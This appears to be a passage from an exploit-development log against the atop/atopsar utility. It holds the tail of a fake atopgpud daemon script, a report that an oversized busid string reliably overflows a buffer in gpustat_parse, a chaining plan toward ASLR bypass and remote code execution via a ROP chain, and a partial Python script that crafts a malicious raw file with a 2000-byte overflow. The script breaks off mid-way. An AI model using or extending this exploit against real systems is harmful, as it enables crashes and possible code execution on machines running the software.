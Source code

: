             conn.recv(1024) # Keep open briefly

if __name__ == "__main__":
    main()



vulnerability.CVE-2023-39804.exploit.final_results
[18:13:06]
The exploit successfully triggers a buffer overflow in the `atopsar` utility, causing a segmentation fault. The exploit works by simulating a malicious `atopgpud` daemon and engaging in a two-stage communication protocol with the `atopsar` client. First, it responds to a 'T' (type) request with a payload containing an oversized 'busid' string. This poisons the client's memory. Second, it responds to an 'S' (statistics) request with a validly formatted response. This triggers the `gpustat_parse` function, which then attempts to copy the oversized 'busid' string into a small, fixed-size buffer, resulting in a crash. The exploit reliably demonstrates the vulnerability.


vulnerability.CVE-2023-39804.exploit.chaining_strategy
[18:21:04]
The vulnerabilities in `gpucom.c` can be chained to bypass ASLR and achieve RCE. First, trigger the heap-based buffer over-read in `gputype_parse` to leak heap metadata and pointers. This information can be used to defeat ASLR. Next, use the uninitialized variable vulnerability in `gpuparse` or `pidparse` to cause a controlled crash, which can be used to pivot the stack to a ROP chain. The ROP chain, built using gadgets found with the leaked pointers, can then be used to execute arbitrary code.


vulnerability.CVE-2023-39804.exploit.dos_file_based_code
[18:42:26]
import zlib
import struct

# Read the valid raw file
with open("/tmp/valid.raw", "rb") as f:
    valid_data = f.read()

# Extract the header and the first record
header = valid_data[:416]
record = valid_data[416:416+80]

# Create a malicious sstat struct with an oversized busid
overflow_string = b"A" * 2000
pergpu_struct = b"\x00" * 8 + overflow_string + b"\x00" * (128 - 8 - len(overflow_string))
sstat_struct = b"\x00" * (4096 - 128) + pergpu_struct

# Compress the malicious sstat struct
compressed_sstat = zlib.compress(sstat_struct)

# Update the scomplen in the record
record = bytearray(record)
struct.pack_into('<I', record, 64, len(compressed_sstat))
